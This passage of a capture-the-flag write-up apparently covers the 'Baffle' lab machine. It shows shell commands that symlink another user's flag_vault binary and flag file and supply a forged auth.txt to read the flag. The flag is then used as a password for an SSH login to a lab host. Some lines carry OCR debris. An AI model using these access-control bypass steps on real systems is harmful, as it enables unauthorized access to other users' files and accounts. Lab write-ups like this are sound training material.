 ```
To: alice@baffle.me
Subject: Flag #2
Message-Id: <2014010204825.B612F2C0E36@baffle.me>
Date: Thu,  2 Jan 2014 11:38:22 -0800 (PST)
Status: O

Alice,

I need you to login to my account. My password is in /home/bob/flag.txt 
You'll need to authenticate to Flag Vault in order to get its contents. 

-- 
Bob
```
Alice was simply traverse to some directory in /home/bob and I found 3 files in /home/bob/filez
* auth.txt
* flag.txt
* flag_vault

I used symbolic link to link flag_vault to /home/alice and link flag.txt to /home/alice. If I execute flag_vault it read auth.txt which I will create a new one and check if input of flag_vault match to auth.txt
```
$<2>$ $<5>cd /home/alice/
$<2>$ $<5>echo test > auth.txt
$<2>$ $<5>ln -s /home/bob/filez/flag.txt /home/alice/flag.txt
$<2>$ $<5>ln -s /home/bob/filez/flag_vault /home/alice/flag_vault
$<2>$ $<5>./flag_vault
$<5>______ _                _    _   _             _ _   
|  ___| |            /\| |/\| | | |           | | |  
| |_  | | __ _  __ _ \ ` ' /| | | | __ _ _   _| | |_ 
|  _| | |/ _` |/ _` |_     _| | | |/ _` | | | | | __|
| |   | | (_| | (_| |/ , . \\ \_/ / (_| | |_| | | |_ 
\_|   |_|\__,_|\__, |\/|_|\/ \___/ \__,_|\__,_|_|\__|
                __/ |                                
               |___/                                 
$<5>
ENTER YOUR AUTHENTICATION CODE: $<2>$ $<5>test
$<5>CHECKING CODE$<5>CODE IS V$<5>
DATA: FLAG{tr3each3ry_anD_cUnn1ng}
```
### 3rd FLAG.
```
FLAG{tr3each3ry_anD_cUnn1ng}
```
From email content stated that Bob's password was stored in /home/bob/flag.txt but in /home/bob there is no flag.txt but there was at /home/bob/filez/flag.txt. I tried to logon SSH with bob and tr3each3ry_anD_cUnn1ng.
```
root@AIRBUS:~# ssh bob@192.168.159.133
The authenticity of host '192.168.159.133 (192.168.159.133)' can't be established.
ECDSA key fingerprint is SHA256:bPqC4D9ISTLmkTkW1WlS5xley+Gspbd19CV0Sh8GnI8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.159.133' (ECDSA) to the list of known hosts.
bob@192.168.159.133's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar  6 02:33:07 2017 from 192.168.159.1
bob@baffle:~$ 
```